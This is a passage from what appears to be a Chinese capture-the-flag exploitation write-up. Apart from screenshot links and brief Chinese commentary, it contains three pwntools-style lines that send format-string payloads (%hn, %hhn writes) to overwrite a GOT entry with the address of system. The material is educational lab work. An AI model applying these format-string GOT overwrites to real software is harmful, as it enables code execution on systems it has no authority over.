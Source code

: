 [![](assets/1701678450-3e1fd3883461130dbf03a05f3b5b74ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211109-c300d764-8eb8-1.png)  
然后就是先修改 2 个字节，再错位改一下 got 表地址

```bash
sla('start','%'+str(system1)+'c%18$hn')
sla('start','%'+str(0x4022)+'c%43$hn')
```

[![](assets/1701678450-09f2a3c98babfb5f70da0ead6839888f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211122-cb0da2f2-8eb8-1.png)

[![](assets/1701678450-1d21a434d08d56a1eb20fd15034813a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129211126-cd950a6a-8eb8-1.png)  
然后再改一字节，就成功改完了

```bash
sla('start','%'+str(system2)+'c%18$hhn')
```
